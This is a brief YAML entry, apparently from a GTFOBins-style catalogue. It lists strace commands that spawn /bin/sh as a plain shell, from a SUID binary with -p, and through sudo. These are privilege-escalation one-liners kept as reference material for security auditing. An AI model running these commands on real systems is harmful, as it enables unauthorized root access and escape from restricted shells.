 ```yaml
---
name: strace
functions:
  shell:
    - code: strace -o /dev/null /bin/sh
  suid:
    - code: ./strace -o /dev/null /bin/sh -p
  sudo:
    - code: sudo strace -o /dev/null /bin/sh
---
```

